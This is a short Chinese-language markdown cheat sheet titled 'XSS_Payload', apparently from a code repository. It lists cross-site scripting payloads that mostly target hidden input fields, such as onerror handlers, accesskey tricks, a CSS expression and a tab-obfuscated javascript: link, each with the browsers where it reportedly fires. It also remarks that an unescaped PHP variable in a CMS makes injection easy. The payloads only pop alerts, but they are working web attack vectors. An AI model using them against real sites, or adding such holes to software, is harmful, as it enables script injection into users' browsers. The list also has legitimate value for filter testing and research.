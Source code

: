## XSS_Payload
### 一、prompt
```html
%3Cp%3E1111111\">< img src=1 onerror=prompt('xss')>%3Cbr%2F%3E%3C%2Fp%3E
```
### 二、accesskey
将类型转换为image，将难以利用的xss漏洞无需用户交互就可以触发</br>
```html
<input type="hidden" accesskey="X" onclick="alert(0)">
```
在firefox中可以复现</br>


另： 今天在审一个cms的时候</br>
<input type="hidden" name="group_id" value="<?php echo $group_id?>" /></br>
这中就很容易构造.....</br>


<input value="" type=image src onerror=alert(1) type="hidden"></br>
chrome、ms edge可复现</br>

### 三、
```html
<input type=hidden style=x:expression(alert(1))>
```
测试于IE6-9 成功

### 四、
```html
<form><input type=hidden onforminput=alert('what?')><input></form>
```
测试于Opera12

### 五、
```html
<svg><input type=hidden onload=alert(1)>
```
测试于safari7.0.6

### 六、
```html
<a href=javascr&#9ipt:alert(1)>www</a>
```

